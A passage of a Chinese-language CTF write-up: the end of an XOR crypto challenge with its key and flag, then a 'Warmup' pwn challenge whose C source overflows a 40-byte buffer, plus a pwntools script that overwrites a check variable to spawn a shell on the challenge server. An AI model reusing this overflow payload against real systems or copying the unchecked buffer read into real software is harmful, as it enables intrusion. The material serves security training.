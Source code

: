 已知金鑰為 `W3lc0me!`，可得出原始內容

![](https://i.imgur.com/3JpT8DP.png)

![](https://i.imgur.com/xNNVkNT.jpg)

flag{X0r1ng_my_Fr1113nndd!}

## pwn
### Warmup
![](https://i.imgur.com/5PMeRrg.png)

source code 如下:
```c=
int main()
{

  int var;
  int check = 0x10203040;
  char buf[40];

  fgets(buf,45,stdin);

  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);

  if ((check != 0x10203040) && (check != 0xf4c3b00c))
    printf ("\nClooosse!\n");

  if (check == 0xf4c3b00c)
   {
     printf("Yeah!! You win!\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Byee!\n");
   }
   return 0;
}
```

可以看到，輸入 buf 長度為 40 但可以輸入 45 個字元，因此可以覆蓋到其他變數，而根據 c 的 calling convention，變數會根據順序堆疊進 stack，因此可以覆蓋到 check，所以只要先隨便塞 40 個垃圾之後塞 0xf4c3b00c 即可獲得 shell

腳本如下:
```python=
from pwn import *
context.terminal = ["cmd.exe", "/c", "start", "bash.exe", "-c"]
context.log_level = "debug"
context.binary = "./reto"

conn = remote("warmup.ctf.cert.unlp.edu.ar", 15004)
#conn = process("./reto")

payload = b"A" * 40
payload += p32(0xf4c3b00c)
conn.send(payload)

conn.interactive()
```
